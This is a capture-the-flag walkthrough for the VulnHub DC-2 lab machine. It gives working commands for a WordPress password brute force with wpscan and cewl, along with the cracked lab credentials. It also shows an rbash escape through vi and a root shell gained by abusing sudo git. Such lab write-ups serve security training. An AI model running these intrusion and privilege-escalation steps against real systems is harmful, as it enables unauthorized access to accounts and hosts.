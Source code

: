 <h1>DC-2 Write-up</h1>

**NMAP** : [Click Me](https://github.com/Vanshal/Vulnhub-Writeups/blob/master/DC-2/nmap.txt)

Add 192.168.56.47   dc-2 to your host file to access WEB 

**FLAG** : http://dc-2/index.php/flag/


using cewl because as the flag hint says normal wordlist will not work

```cewl -d 5 -w wordlist http://dc-2/```


<h3>Password Attack (WPSCAN)</h3>

First Enumerate Users with the following command : 
```
wpscan --url http://dc-2/ -e u
```
Now the attack ;)

```wpscan --url http://dc-2/ -U tom,jerry -P wordlist```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/WPbrute.png)

 Username: jerry, Password: adipiscing   
 Username: tom, Password: parturient     

**Login to ssh using tom creds :**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/rbashescape.png)


<h3>Rbash Escape </h3>

```
vi 
:set shell=/bin/sh
:shell

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

<h2>Priv Esc</h2>

```
su - jerry   # PASS : parturient (Found in Password attack of wordpress)
sudo -l 

PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
sudo git -p help config
!/bin/sh
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/privesc%20.png)
